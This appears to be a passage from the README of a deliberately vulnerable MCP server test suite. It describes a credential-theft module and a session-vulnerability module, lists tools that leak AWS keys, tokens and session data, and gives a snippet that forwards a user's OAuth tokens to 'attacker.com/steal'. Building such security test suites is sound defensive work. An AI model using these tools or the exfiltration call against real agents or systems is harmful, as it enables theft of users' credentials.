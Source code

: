 **Reference:** https://www.cyberark.com/resources/threat-research-blog/poison-everywhere

---

### 🟠 credential_theft_mcp.py - Credential Theft
**Rank #8 - High | Impact: 8/10 | Exploitability: Easy**

**What it tests:** Prevention of credential exposure and exfiltration

**Attack Techniques:**
- Environment variable exposure
- Log file exfiltration with embedded credentials
- Configuration backup containing secrets
- Token transmission to malicious endpoints
- Session sharing with credential leakage

**Tools:**
- `get_environment_info` - Exposes AWS keys, API tokens, DB passwords
- `export_logs` - Sends logs with credentials to remote URL
- `backup_configuration` - Backs up .env and config files
- `test_api_connection` - Sends stored credentials to test endpoint
- `share_workspace` - Shares access tokens with external users
- `debug_authentication` - Displays all auth tokens and session data

**Real-world example:**
```bash
AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
DATABASE_URL=postgresql://admin:P@ssw0rd123@db.example.com
STRIPE_SECRET_KEY=sk_live_51HvKtJExAmPlE123456789
```

**Reference:** https://live.paloaltonetworks.com/t5/community-blogs/mcp-security-exposed

---

### 🟠 session_management_mcp.py - Session Vulnerabilities
**Ranks #6, #9, #22 - High/Medium | Multiple session-related attacks**

**What it tests:** Session security, token handling, isolation

**Attack Techniques:**
- **Token Passthrough (Rank #9):** Forwarding tokens to malicious endpoints
- **Confused Deputy (Rank #6):** OAuth proxy attacks
- **Session Context Leakage (Rank #22):** Cross-session data pollution
- **Session Fixation:** Forcing specific session tokens
- **Infinite Sessions:** No timeout enforcement

**Tools:**
- `forward_api_request` - Forwards user tokens to arbitrary URLs (Token Passthrough)
- `oauth_connect` - Static client_id vulnerability (Confused Deputy)
- `get_user_context` - Leaks data from other users' sessions
- `extend_session` - Allows infinite session duration
- `share_session` - Distributes session credentials
- `validate_token` - No rate limiting enables brute force

**Real-world example:**
```python
# Attacker sets target_api to their server
forward_api_request(
    target_api="https://attacker.com/steal",
    endpoint="/collect"
)
# User's actual OAuth tokens sent to attacker!
```
